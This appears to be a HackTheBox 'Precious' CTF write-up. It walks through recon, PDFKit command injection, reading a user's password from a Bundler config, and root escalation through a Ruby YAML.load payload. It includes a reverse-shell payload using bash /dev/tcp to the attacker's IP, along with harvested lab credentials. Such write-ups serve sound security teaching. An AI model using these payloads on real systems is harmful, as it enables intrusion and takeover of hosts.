


[//]: # (Project: GitHub Pages)  
[//]: # (Title: HTB Precious Writeup)  
[//]: # (Author: M4773L)  
[//]: # (Date: 2022/12/05 14:08.45)  
[//]: # (Date_Modified: ) 
[//]: # (WEBSITE_URL: http://m4773l.github.io)
[//]: # (GITHUB_REPO_URL: https://github.com/M4773L)

# Precious - HTB - Writeup

## Port-scan Results

###### Nmap - TCP Aggressive
  
Starting off with an Nmap Aggressive scan, we will check out which ports are listening on the target. An Aggressive scan will attempt OS detection, service & version identification as well as run the appropriate script-scans on the open ports. Aggressive scan's are great for CTF's but are extremely noisy due to the large amount of probes being sent & received. Taking a look at the results you can see the scan identified a redirect to the domain 'http://precious.htb/' for the Nginx service on port 80 and the OS is Linux. (More on the open ports below)

###### Nmap - TCP - All Ports with Service Identification
  
A quick TCP connect scan with service / version identification enabled across the whole port range. The results are very much the same with only the following ports / services identified.

	Proto  |  Service  | Version  
	----------------------------
	 TCP   |    SSH    |  OpenSSH 8.4p1 Debian
	 TCP   |    HTTP   |  Nginx 1.18.0


###### Nmap - UDP - Top Ports
  
A quick scan of the UDP ports using Nmap's fast-mode '-F' flag, there isn't much being handled on the UDP side of things.

###### Edit '/etc/hosts' File
  
From the aggressive scan results, when the 'http-title' script was executed it received a redirect to the domain name: 'http://precious.htb'. I will now proceed to add this domain into my Kali OS's hosts file, this allows the domain name to be resolved to an IP address. Using a text editor of your choice open '/etc/hosts' and add the following line:
```
10.10.11.189	precious.htb
```

&nbsp;

## Port 80 - HTTP
Lets take a look at whats happening on the Nginx web server at port 80. 

###### Burpsuite
  
Fire up Burpsuite and add the domain name to the target scope.

###### Homepage
  
Having a look at the homepage, the page suggests that it will take a web page URL as input. Upon submitting, the web application will perform a GET request to retrieve the contents of the supplied web page URL and convert the contents into a PDF document.

###### Page-source
  
Checking out the page-source, there isn't anything too interesting. We can see that when submitting a URL for the app to fetch from a POST request containing the URL is sent to the same endpoint as the homepage.

###### Directory Brute-Force
  
A quick directory brute-force should identify any other files or directories stored in the web-root. In this case the FFUF fuzz didn't identify anything.

###### Burpsuite Proxy
  
Taking a look at the response headers in Burpsuite, we can see the 'X-Powered-By' header has a value of 'Phusion Passenger(R) 6.0.15'. Knowing that Phusion Passenger supports Ruby, Node-JS and Python, the 'X-Runtime' header provides me with confidence we are dealing with a web application written in Ruby.

For more information on Phusion Passenger: https://github.com/phusion/passenger#supercharge-your-ruby-nodejs-and-python-apps 

###### Testing The Web Application
  
Time to test the functionality, I will start a Socat fork listener on port 2010 before submitting my HackTheBox VPN IP address and the port where my listener is at to the app. ``` http://<HTB_IP>:<PORT>/```

<strong>Note: Be sure to start your listener before submitting URL.</strong>  

  
As you can see the Socat listener receives the GET request from the target web application. In the User-Agent header you can see the value: ```wkhtmltopdf ``` with the rest of the request not providing anything of interest.  

###### Simple HTML File
To test functionality, I will create a small HTML page before hosting the file with a Python HTTP server. Then using the target web application we will retrieve our created web page and view the created PDF file.

  
Create a directory to store the '.html' file, using Vim I create a simple web page before hosting the page with Python3's HTTP server module.

  
The simple HTML file I created is largely a copy and paste of the web applications page-source with a modified body.  
(Yes I probably should have removed the link tags..)

  
Back in the web browser, enter the URL to your Python HTTP server. ie; ```http://<HTB_IP>:<PORT>/<FILENAME.html```  
Then press the Submit button to POST the URL to the web application.

  
You will notice almost immediately you will see the GET request hit your Python3 HTTP server and successfully retrieve the 'index.html' file.

  
A new tab is opened in the browser and the HTML page has been converted to a PDF file, to further analyze the file I will download a copy.

  
Select the download icon from the PDF toolbar within your browser.

  
Download completed.

  
Listing out the contents of the directory, I then run the 'exiftool' application to view any meta-data attributed to with the PDF file. The creator parameter tells me that the PDF file was generated by 'pdfkit v0.8.6'. 

###### Finding an Exploit
Armed with the what we know, lets try and find an appropriate exploit to gain a foothold on the target.

  
A quick Google search for: ```pdfkit v0.8.6 ruby vulnerabilities``` yeilds results for a Command Injection vulnerability in PDFkit.  

  
Taking a look at the Snyk advisory, there is an explanation and also a proof of-concept. The vulnerability exists where the 
```PDFKit.new().to_pdf``` function is supplied a URL that contains query-string parameters with user provided input.  
For example if; ```http://127.0.0.1/?name=#{'%20`id`'}``` was supplied to ```PDFKit.new().to_pdf```, the ```id ``` command would be executed and the results included in the generated PDF document.

###### Exploitation
Lets go straight for a reverse shell, a simple reverse shell inside a query parameter in our supplied URL to the web app should return a shell. 
The payload I will be using will be:
```http://127.0.0.1/?name=#{'%20`bash -c "bash -i >& /dev/tcp/<HTB_VPN_IP>/<LISTENER_PORT> 0>&1"`'}```  

Payload is from: 

  
Start a Netcat listener on a port of your choice.

  
Enter our payload into the form on the web applications homepage and click submit.

  
We receive the connection from the reverse shell at our Netcat listener, running the: ```id``` command reveals we are currently the user 'ruby'.

## Pivot / Priv-esc
  
The shell has spawned from the web applications root directory: ```/var/www/pdfapp```.  
Listing out the contents recursively we can see there are a few files which could potentially contain some useful information. 

  
Taking a look at the rack up file: 'config.ru' and their is nothing juicy. Looking at the 'enviroment.rb' file the app is using Bundler a  manages the installation / version management of an applications ruby-gems.

For more information on Bundler check out: https://bundler.io/  

  
Changing to the current user's home directory and listing the contents, you can see there is a '.bundle' directory which is used by Bundler to store configuration files. Listing out the contents of the '.bundle' reveals there is indeed a configuration file present, viewing the contents there is a username and password.

* Creds: 
```"henry:Q3c1AqGHtoI0aXAYFH"```

## SSH as Henry
  
SSH into the target as the user Henry supplying the identified password when requested, retrieve the user flag.

## Privilege Escalation

  
One of the first checks I perform is if the user can run any 'sudo' without requiring a password which is indicated by ```NOPASSWD```. In the results you can see that the user henry may run the following commands on precious:  
```(root) NOPASSWD: /usr/bin/ruby /opt/update_depencencies.rb```

###### Update_Dependencies.rb
Let's take a look at the 'update_dependencies.rb' file:
  
We can see that the ruby file loads & reads a list of dependencies specified in a file named: ```dependencies.yml``` The script then retrieve's a list of locally installed ruby-gems before the main function performs a comarison using an 'if/else' code block. The output will then 'put' which is a ruby print function that adds a new line to the end of each printed line to the terminal window.  

###### Some Searching Online
  
Searching online for: ```ruby yaml load exploit``` yeilds a 'Universal RCE with Ruby YAML.load'. This looks rather promising!  

  
Taking a look at the 2 provided exploits, the first is more of a simple POC to return the stdout & stderr output from the ```id``` command. The second proof of-concept is better as it accepts input/outut ('io') which with some modification, should allow us to call ```/bin/bash```.  
Hit the 'Raw' button to view a raw-copy of the ```ruby_yaml_load_sploit2.yaml```.

  
The raw file is stripped of any additional HTML or formatting allowing for easy retrieval. Copy the page URL from your browsers address bar.  

  
Using ```wget``` retrieve a copy of the file using the URL for the raw Github file, I then rename the file to ```sploit.yml```. I proceeded to open the file in ```vim``` to make a slight modification.

  
In ```vim``` I simply changed the following value ```git_set: id``` to ```git_set "/bin/bash"```. This will execute ```/bin/bash``` resulting in a shell rather than simply executing the ```id``` command.

###### Exploitation
This step should be pretty straight-forward, we need to transfer our payload: 'sploit.yml' to the target and save it as 'dependencies.yml'.  

  
Start a HTTP server of your choice, I use Python in the directory where your payload file is located.  

  
In our SSH session as the user 'henry', use the ```curl``` command to retrieve the payload. I used the ```-o``` flag to output the contents to a file named 'dependencies.yml', which is what the 'update_dependencies.rb' script loads when executed.  
Once again I list the commands that 'henry' can run as sudo, I then execute the command:  
 ```sudo /usr/bin/ruby /opt/update_dependencies.yml``` which runs the 'update_dependencies.rb' script which when it loads our malicious 'dependencies.yml' file will spawn ```/bin/bash``` as the 'root' user. I then run the ```id``` command to confirm I am root, change into the root directory, print the working directory and list the contents of the directory.  
